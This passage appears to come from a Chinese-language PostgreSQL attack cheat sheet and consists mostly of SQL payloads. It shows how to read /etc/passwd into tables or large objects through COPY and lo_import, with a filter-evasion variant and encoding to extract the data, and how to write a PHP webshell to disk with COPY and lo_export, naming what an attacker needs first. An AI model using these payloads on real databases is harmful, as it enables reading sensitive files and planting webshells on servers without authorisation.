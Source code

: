  

#### **copy**

```postgresql
create table testf0x(t TEXT);
copy testf0x from '/etc/passwd';
select * from testf0x limit 1 offset 0;
```

 

#### lo_import

```postgresql
lo_import 允许指定文件系统路径。该文件将被读取并加载到一个大对象中，并返回该对象的 OID。

Select lo_import('/etc/passwd',12345678);
select array_agg(b)::text::int from(select encode(data,'hex')b,pageno from pg_largeobject where loid=12345678 order by pageno)a

-- 单引号被转义的情况下使用
select/**/lo_import($$/etc/passwd$$,11111);
select/**/cast(encode(data,$$base64$$)as/**/integer)/**/from/**/pg_largeobject/**/where/**/loid=11111
```



# 0x05 getshell

**利用条件**

1. 拥有网站路径写入权限
2. 知道网站绝对路径



#### COPY

```postgresql
COPY 命令可以用于表和文件之间交换数据，这里可以用它写 webshell

COPY (select '<?php phpinfo();?>') to '/tmp/1.php';

也可以 base64 一下
COPY (select convert_from(decode('ZmZmZmZmZmYweA==','base64'),'utf-8')) to '/tmp/success.txt';
```



#### lo_export

```postgresql
lo_export 采用大对象 OID 和路径，将文件写入路径。

select lo_from_bytea(12349,'ffffffff0x');
SELECT lo_export(12349, '/tmp/ffffffff0x.txt');

-- base64 的形式
select lo_from_bytea(12350,decode('ZmZmZmZmZmYweA==','base64'));
SELECT lo_export(12350, '/tmp/ffffffff0x.txt');
```
